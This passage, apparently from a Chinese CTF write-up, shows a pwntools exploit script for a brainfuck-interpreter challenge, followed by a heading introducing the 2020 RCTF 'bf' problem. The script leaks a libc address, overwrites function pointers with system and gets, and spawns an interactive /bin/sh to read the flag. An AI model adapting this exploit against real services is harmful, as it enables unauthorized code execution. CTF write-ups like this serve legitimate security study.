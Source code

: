 ```
    if ip != None and port !=None:
        try:
            sh = remote(ip,port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        # Your Code here
        payload  = ','
        payload += '&lt;' * 0x94
        payload += '.&gt;.&gt;.&gt;.&gt;'
        payload += ',&gt;,&gt;,&gt;,&gt;'
        payload += '&gt;' * 0x18
        payload += ',&gt;,&gt;,&gt;,&gt;'
        payload += ',&gt;,&gt;,&gt;,&gt;'
        payload += '.'
        sh.recvuntil('type some brainfuck instructions except [ ]') 
        sh.sendline(payload)
        sh.send('x01')
        libc.address = get_address(sh=sh,info='LIBC ADDRESS --&gt; ',start_string='n',address_len=4,offset=-libc.symbols['getchar'])
        for i in p32(libc.symbols['system']):
            sh.send(i)
        for i in p32(libc.symbols['gets']):
            sh.send(i)
        for i in p32(0x08048671):
            sh.send(i)
        sh.sendline('/bin/sh')
        sh.interactive()
        flag=get_flag(sh)
        sh.close()
        return flag
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'

if __name__ == "__main__":
    sh = get_sh(Use_other_libc=True)
    flag = Attack(sh=sh)
    log.success('The flag is ' + re.search(r'flag`{`.+`}`',flag).group())
```



## 0x04 以 2020 RCTF bf 为例

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-12-140441.png)
